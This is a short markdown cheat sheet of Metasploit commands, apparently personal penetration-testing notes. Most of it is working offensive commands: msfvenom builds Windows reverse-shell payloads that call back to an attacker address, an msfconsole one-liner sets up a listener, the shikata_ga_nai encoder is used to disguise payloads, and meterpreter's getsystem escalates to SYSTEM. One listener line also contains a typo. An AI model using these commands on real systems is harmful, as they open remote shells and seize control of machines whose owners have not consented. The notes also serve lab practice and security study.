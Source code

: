 # Metasploit commands

## Basics

basic msvenom reverse-shell payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=${PORT} -f exe -o shell
```

One-liner for setting up a listener
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set ${PORT} 6666; set ExitOnSession false; run"
```
Also, keep in mind that it's worth attempting staged payloads if the unstaged one doesn't work (and vise versa).
e.g. when `windows/x64/shell_reverse_tcp` doesn't work, it's worth it to give  `windows/x64/shell/reverse_tcp` a try.
And also give the 32-bit version a try.
I have seen examples of the 64-bit version just not working for some reason.

## encoding

To see encoders available to you, use `msvenom -l encoders`.

Then, you can something like `-e x86/shikata_ga_nai` when creating the payload.

## Session handling

upgrade recent session to meterpreter session: `sessions -u -1`

## controling the output of msfvenom

A lot of the time, we are looking for a file as the payload. eg:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -o shell.py
```

However, if we want to assign the shell to a variable in a script, we can also do that with `-v nameOfVar`, such as:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -v sh
```
which will give us a variable `sh` with the payload as hex. 

## Windows Priv Esc

Using a meterpreter session of from payloads `windows/x64/shell_reverse_tcp` or `windows/shell/reverse_tcp`, you can do this script-kiddie move to privilege escalate:

```
meterpreter > use priv
```
(this might just say `[!] The "priv" extension has already been loaded.`)
```
getsystem
```
and meterpreter will do it's best to get you `NT AUTHORITY\SYSTEM`

